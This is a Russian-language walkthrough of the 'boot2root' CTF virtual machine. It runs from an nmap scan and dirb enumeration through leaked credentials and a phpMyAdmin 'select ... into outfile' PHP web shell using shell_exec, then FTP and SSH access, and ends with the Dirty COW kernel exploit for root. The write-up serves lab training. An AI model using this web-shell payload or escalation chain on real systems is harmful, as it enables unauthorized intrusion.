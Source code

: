 ## Поиск IP адреса нашей виртуальной машины на пк.

``
ifconfig - для поиска нужного IP адреса на пк. 
``

![
vmnet8: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
	ether 00:50:56:c0:00:08
	inet 172.16.101.1 netmask 0xffffff00 broadcast 172.16.101.255
](/imgs/img1.png)

## Прогонка портов через nmap для получения сведений о нужном нам адресе.

``
nmap 172.16.101.1-255
``

![
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 172.16.101.128
Host is up (0.0012s latency).
Not shown: 994 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

Nmap done: 255 IP addresses (2 hosts up) scanned in 27.37 seconds
](/imgs/img2.png)
``172.16.101.128 нужный нам IP`` 

## Проверка всех ссылок по адресу.
``git clone https://github.com/v0re/dirb.git``
### Установка dirb
```
cd dirb
./confgiure
make
```
``./dirb https://172.16.101.128/ wordlists/common.txt``
## Проверка ссылок на форуме.
После того как зашли на форум, находим ответвление 'Probleme login ?'.
Пройдясь по логам находим две строки:

### Первый ввод предположительно были перепутаны строки для логина и пароля.
![
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
](/imgs/img3.png)

### Во втором ввод логина был правильный.
![
Oct 5 09:21:01 BornToSecHackMe CRON[9111]: pam_unix(cron:session): session closed for user lmezard 
](/imgs/img4.png)

## Попытка войти на почту с полученным логином и паролем.
Переходим по ссылке ``https://172.16.101.128/webmail/src/login.php``
При воде пароля ``lmezard`` и пароля ``!q\]Ej?*5K5cy*AJ`` не срабатывает.
Делаем поиск ника ``lmezard`` в гугле :
![
Google info about lmezard. Laurie Mezard
](/imgs/img5.png)
Нам выдало полное имя Laurie Mezard. Пробуем разные варианты для логина.
Нужный нам вариант ``laurie@borntosec.net``.
Входим на мейл ``login: laurie@borntosec.net`` и ``password: !q\]Ej?*5K5cy*AJ``
Полазив по почте находим письмо:
![
Hey Laurie,
You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$
Best regards.
](/imgs/img6.png)
Находим пароль и логин для базы данных ``login: root`` и ``password: Fg-'kKXBj87E:aJ$``
## Попытка входа в phpmyadmin.
Переходим по ссылке ``https://172.16.101.128/phpmyadmin/``
С логином и паролем входим в бд.
После поиском по сети находим експлойт для дб.
``select "<?php $output = shell_exec('cat /home/LOOKATME/password'); echo $output ?>" into outfile "/var/www/forum/templates_c/pokemon.php"``
Переходим на sqltab в том же окне phpmyadmin в который мы залогинились.
Выполняем скрипт.
Скриптом создали новый темплейт по ссылке ``https://172.16.101.128/forum/templates_c/pokemon.php`` где находим ``lmezard:G!@M6f4Eatau{sF"``.

## Попытка входа по ftp.
Теперь пробуем подключиться по ftp.
``ftp 172.16.101.128``
``login: lmezard``
``password: G!@M6f4Eatau{sF"``
Вход успешен, смотрим что там находится:
![
README.md
fun
](/imgs/img7.png)
Теперь скидываем файл себе ``get fun ~/boot2root/fun``
В файле куча разной информации, если посмотреть тип файла ``file fun`` узнаем что это архив.
Разархивируем архив ``tar xvf fun``
Получаем целую папку с разными файлами. При просмотре каждого файла пузнаем что
там есть строка с номерным знаком и кусок сишного кода. 
Используем небольшой самописный скрипт который соберет все из файлов, отсортирует и потом создаст новый файл main.c .
``python unpack.py``
``gcc main.c``
``./a.out``
 После запуска получаем :
 ![
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
](/imgs/img8.png)
Шифруем его в SHA-256 и получаем :
``330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4``

## Попытка входа по ssh.
``ssh laurie@172.16.101.128``
``login: laurie``
``password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4``
Мы вошли по SSH на сервер.
Теперь нужно узнать что это за сервер что бы правильно нагуглить експлойт для рута.
``uname -r`` -> 3.2.0-91-generic-pae
``cat /etc/*-release`` -> DISTRIB_DESCRIPTION="Ubuntu 12.04.5 LTS"
С полученными данными делаем поиск в гугле и находим вот эту [ссылку](https://www.exploit-db.com/exploits/40839).
Создаем этот скрипт на сервере, мы сделали это через vim.
``touch pokemon.c``
``vim pokemon.c`` -> ``CMD + C`` -> ``CMD + V``
``gcc -pthread pokemon.c -o dirty -lcrypt && ./dirty``
Теперь задаем какой то пароль.
``si firefart``
# Вы под рутом.



